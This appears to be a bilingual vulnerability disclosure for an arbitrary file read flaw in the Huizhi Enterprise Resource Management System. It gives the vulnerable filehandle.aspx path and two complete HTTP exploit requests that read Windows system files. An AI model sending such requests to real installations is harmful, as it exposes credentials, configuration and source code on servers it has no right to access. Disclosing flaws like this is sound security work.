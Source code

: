 ##  汇智企业资源管理系统 存在任意文件读取漏洞

### Info

The program Huizhi Enterprise resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has any file reading vulnerability, which can read files at any system location: Sensitive data leakage: An attacker can exploit any file reading vulnerability to obtain sensitive information on the server, such as database connection strings, password files, API keys, etc., resulting in data leakage and potential losses. Profile theft: An attacker can read the profile of a Web system to obtain the structure, deployment details, and other critical information for further attack. Source code disclosure: An attacker can access the source code of a Web system, analyze and identify potential security vulnerabilities, or insert malicious code to achieve long-term control. Leak path: / nssys/common/filehandle. Aspx? filepath=C%3a%2fwindows%2fwin%2eini can read the windows configuration file windows.ini

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在任意文件读取漏洞,可以读取任意系统位置文件：敏感数据泄露：攻击者可以利用任意文件读取漏洞获取服务器上的敏感信息，如数据库连接字符串、密码文件、API密钥等，从而导致数据泄露和潜在的损失。配置文件窃取：攻击者可通过读取Web系统的配置文件，获取网站的结构、部署细节和其他关键信息，以便进一步实施攻击。源代码泄露：攻击者可以访问Web系统的源代码，分析并找出潜在的安全漏洞，或插入恶意代码以实现长期控制。漏洞路径为：/nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini可以读取windows配置文件 windows.ini

### Vuln information

![image-20240723093556878](2.png)

HTTP data

```http
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 127.0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```

![image-20240723093538594](1.png)

```
GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fdebug%2fnetsetup%2elog HTTP/1.1
Host: 127..0.0.1:8515
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ckf5rppwogrghtsiog5mhnh3
Connection: keep-alive
```

![image-20240723093831023](3.png)

